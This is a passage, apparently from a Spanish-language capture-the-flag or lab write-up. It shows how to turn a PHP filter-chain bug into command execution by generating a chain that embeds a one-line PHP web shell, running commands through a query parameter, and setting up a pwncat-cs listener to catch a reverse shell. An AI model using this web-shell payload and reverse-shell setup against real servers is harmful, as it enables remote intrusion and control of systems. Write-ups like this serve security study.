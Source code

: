 ![Write-up Image](images/Screenshot_20.png)

Ahora para conseguir ejecutar comandos, simplemente a través del parámetro `chain` podemos especificarle lo siguiente al script.

```console
$ python3 php_filter_chain_generator.py --chain '<?php system($_GET["c"]); ?>  '
```

Nos copiamos toda la cadena y la pegamos.
También añadimos el comando a ejecutar mediante el query param `c`.
![Write-up Image](images/Screenshot_21.png)

Ahora para conseguir la reverse shell, nos ponemos en escucha con `pwncat-cs` por el puerto 443.

```console
$ sudo pwncat-cs -lp 443
```

Ejecutamos el one-liner típico para enviarnos una consola (URL-Encodeando el carácter `&`)
![Write-up Image](images/Screenshot_22.png)
